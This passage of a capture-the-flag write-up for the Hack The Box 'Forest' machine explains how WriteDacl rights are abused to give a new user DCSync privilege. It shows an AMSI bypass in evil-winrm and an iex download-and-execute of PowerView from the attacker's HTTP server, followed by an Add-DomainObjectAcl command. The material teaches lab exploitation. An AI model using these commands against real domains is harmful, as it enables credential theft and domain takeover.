 That is the path we should see!, credits to [ir0nstone](https://ir0nstone-ad.notion.site/ir0nstone-ad/Forest-aef04d15fa1a48248ac3e94aa440d2c4) for the image. We see that `EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL` has `WriteDacl` privileges on Domain. Meaning that the user can write to the discretionary access control list(DACL) of the Domain. Meaning we can add a user to `EXCHANGE WINDOWS PERMISSIONS` group and give them `DCSync` privileges. [DCSYNC](https://stealthbits.com/blog/what-is-dcsync-an-introduction/) privilege allows an attacker to simulate a Domain Controller to retrieve password hashes via domain replication. Requesting a "sync" that will contain password hashes that should only be viewable by Domain Controller.   

So we should abuse the group privileges that this user has like so:

<img src="/assets/images/forest/forest9.PNG" alt="Adding evil.">

We have created a new user called `evil` with the password `Nice1234!` to comply with the domain's password policy. And we have added this user to various groups which are on the path to domain admin as seen in ir0nstone's image. From here we grab [Powerview](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1) and use `evil-winrm` to evade defender by patching our session with `Bypass-4msi` like so:

<img src="/assets/images/forest/forest10.PNG" alt="Bypass-4msi.">

We can then upload `PowerView.ps1` by starting an http server on our box with `sudo python3 -m http.server` then running `iex(new-object net.webclient).downloadstring('http://10.10.14.11:8000/PowerView.ps1')` on the `evil-winrm` session to download from our box. From here we can use the `evil-winrm` shell to run `Add-objectACl` which gives our account `evil` DCSync privilege. These can be pasted one line after each other.
```
$pass = convertto-securestring 'Nice1234!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\evil', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb, DC=local" -PrincipalIdentity evil -Rights DCSync
```

